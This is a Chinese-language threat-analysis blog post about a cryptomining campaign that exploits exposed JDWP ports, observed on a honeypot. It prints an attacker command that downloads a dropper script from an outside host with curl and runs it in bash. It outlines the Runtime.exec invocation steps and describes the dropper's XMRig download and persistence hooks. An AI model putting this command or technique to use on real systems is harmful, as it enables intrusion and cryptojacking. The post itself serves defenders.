 攻击流程  
  
在调查过程中，我们观察到来自不同攻击者的多次 JDWP 攻击尝试，但为了简单起见，我们决定在本篇博文中重点介绍一个事件，该事件可以作为整个攻击活动的一个很好的例子。请注意，附录中包含的攻击指标 (IoC) 适用于所有观察到的活动，而不仅仅是这起特定事件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tad8qaAFIXawYiaqLGFkpFibVpCMoicwt64xNPauHUaLzdwGOMn8BcRCQiaiaibBJ8zm5Q3IUibAy6BDAIicow/640?wx_fmt=webp&from=appmsg "")  
  
攻击者首先在互联网上扫描开放的 JDWP 端口。其中一次扫描到达了我们的蜜罐服务器，该服务器在 5005 端口上暴露了 JDWP。随后，攻击者发送请求，JDWP-Handshake确认接口处于活动状态并建立 JDWP 会话。JVM 响应了版本详细信息和已加载类的列表，确认 JDWP 确实已暴露并且完全可交互。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tad8qaAFIXawYiaqLGFkpFibVpAG4Y8UqRwMibt8Q1QlTe3pcAL2cJA7m3SSadRicOPJ5JLVx9ITwloqDA/640?wx_fmt=webp&from=appmsg "")  
  
上面是 Wireshark 的屏幕截图，显示了 JDWP-Handshake 协议。  
  
此后，攻击者按照结构化的顺序实现远程代码执行，可能使用了具有附加功能的jdwp-shellifier变体。他们查询 JVM 中可用的类和方法，然后找到java.lang.Runtime与其关联的getRuntime()方法exec()。  
  
涉及的利用步骤如下：  
  
1.创建包含系统命令的 Java 字符串，例如：  
  
```
curl -o /tmp/logservice.sh -s <https://canonicalconnect[.]com/logservice.sh>bash /tmp/logservice.sh
```  
  
  
2.Runtime.getRuntime()使用调用INVOKESTATICMETHOD_SIG  
  
3.将命令字符串传递给exec()使用INVOKEMETHOD_SIG  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tad8qaAFIXawYiaqLGFkpFibVpWxMkfbzfnG7DFPHvYhPpV4bCa4s2BW7icQ2ibKxgJdialQEaTaj8BQslg/640?wx_fmt=webp&from=appmsg "")  
  
上面是Wireshark的截图，显示了包含利用命令的JDWP数据包  
  
wget使用不同的命令组合（ 、等）重复这些步骤sh来下载并启动攻击负载。  
  
在底层，攻击者发出了低级 JDWP 指令，包括、、CreateString和方法调用签名。它们完全通过 JDWP 协议进行操作，无需访问应用程序本身。get_all_classesget_methods  
  
日志服务  
  
logservice.sh是一个具有以下功能的投放器脚本：  
- 杀死竞争矿工或任何高 CPU 进程（除一小部分允许进程外，任何使用超过 60% CPU 的进程）。  
  
- https[://]awarmcorner[.]world/silicon<architecture>blueprints.png放入一个来自的 XMRig 矿工  ~/.config/logrotate 并执行它。  
  
- .bashrc在每个 shell 启动文件（ 、等）、rc.local、systemd 和多个 cron 作业中安装持久钩子.zshrc，确保在每次 shell 登录、重启或预定间隔时重新获取并重新执行有效负载。  
  
- 退出时自行删除，几乎不留下任何痕迹。  
  
```
```